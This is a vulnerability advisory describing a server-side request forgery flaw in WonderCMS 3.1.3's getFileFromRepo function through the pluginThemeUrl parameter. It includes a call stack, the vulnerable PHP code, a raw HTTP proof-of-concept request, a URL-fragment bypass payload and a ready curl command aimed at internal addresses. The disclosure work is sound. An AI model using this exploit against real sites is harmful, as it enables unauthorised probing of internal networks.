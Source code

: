 # SSRF vulnerability in `getFileFromRepo` Function of `index.php` File (WonderCMS 3.1.3 version)

## 0x01 Affected version

vendor: https://github.com/WonderCMS/

version: 3.1.3

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `getFileFromRepo` function of WonderCMS 3.1.3 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `pluginThemeUrl` parameter. We should note that the vulnable parameter for this vulnerability is different from the [CVE-2020-35313](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35313) vulnerability and that the vulnerability requires authentication to trigger.



The vulnerable code is located in the `getFileFromRepo()` function in the `index.php` file. Because the function `addCustomThemePluginRepository()` does not perform sufficient checksumming on the `pluginThemeUrl` parameter, the taint is introduced from the `$url` variable into the tainted function `curl_exec` called by `getFileFromRepo()` at the file `index.php`, and after the `curl_exec` function is executed it sends a request to the URL specified by the `pluginThemeUrl` parameter, eventually leading to an SSRF vulnerability.



Function call stack information related to the SSRF vulnerability.

```
Wcms->getFileFromRepo (/var/www/html/wondercms/index.php:736)
Wcms->getCheckFileFromRepo (/var/www/html/wondercms/index.php:763)
Wcms->getOfficialVersion (/var/www/html/wondercms/index.php:752)
Wcms->checkBranch (/var/www/html/wondercms/index.php:998)
Wcms->downloadThemePluginsData (/var/www/html/wondercms/index.php:961)
Wcms->cacheSingleCacheThemePluginData (/var/www/html/wondercms/index.php:942)
Wcms->addCustomThemePluginRepository (/var/www/html/wondercms/index.php:1032)
Wcms->init (/var/www/html/wondercms/index.php:129)
{main} (/var/www/html/wondercms/index.php:15)
```



Code for the location of the tainted inflow

```php
	public function addCustomThemePluginRepository(): void
	{
		if (!isset($_POST['pluginThemeUrl'], $_POST['pluginThemeType']) || !$this->verifyFormActions()) {
			return;
		}
		$type = $_POST['pluginThemeType'];
		$url = rtrim(trim($_POST['pluginThemeUrl']), '/');
		...
		}
```



The location of the code that ultimately triggers the vulnerability

```php
	public function getFileFromRepo(string $file, string $repo = self::WCMS_REPO): string
	{
		$repo = str_replace('https://github.com/', 'https://raw.githubusercontent.com/', $repo);
		$ch = curl_init();
		curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
		curl_setopt($ch, CURLOPT_URL, $repo . $file);
		$content = curl_exec($ch);
		if (false === $content) {
			$this->alert('danger', 'Cannot get content from repository.');
		}
		curl_close($ch);

		return (string)$content;
	}
```



Because the `pluginThemeUrl` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows:

```
POST /wondercms/home HTTP/1.1
Host: 172.16.119.147
Content-Length: 175
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.119.147
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.16.119.147/wondercms/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vf6nfrjfsvu27nnf1cf4tnjjji
x-custom-ip-authorization: 127.0.0.1
Connection: close

pluginThemeUrl=http%3A%2F%2F172.16.119.1%2Ftets%23https%3A%2F%2Fgithub.com%2Ffuzz&token=a3926e0b25ea9c109c32e1f013a571b51190214bdf2dd848d04f314214af2812&pluginThemeType=themes
```



This also shows that the security filtering functions currently used are incomplete. An attacker can easily bypass it by using the following payload.

```
http%3A%2F%2F172.16.119.1%2Ftets%23https%3A%2F%2Fgithub.com%2Ffuzz
```



Examples of triggered vulnerabilities

![image-20230721161928260](./assets/image-20230721161928260.png)



You can also use the following curl command to verify the vulnerability. (Note that you need to update the token information for authentication.)

```
curl -i -s -k -X $'POST' \
    -H $'Host: 172.16.119.147' -H $'Content-Length: 178' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://172.16.119.147' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://172.16.119.147/wondercms/' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: zh-CN,zh;q=0.9' -H $'x-custom-ip-authorization: 127.0.0.1' -H $'Connection: close' \
    -b $'54e7d701daf706e028b5135c2ab6049b=svkasl680me62m9o8eh5ika81j; PHPSESSID=g037p4hm9mli76vcg5pekn8ge2' \
    --data-binary $'pluginThemeUrl=http%3A%2F%2F172.16.119.1%2Fflag123%23https%3A%2F%2Fgithub.com%2Ffuzz&token=8155deece02eacb5ae097e159b53bfb3b19ee06545da3d784912d0499169181f&pluginThemeType=themes' \
    $'http://172.16.119.147/wondercms/home'
```



## 0x03 Acknowledgement

z3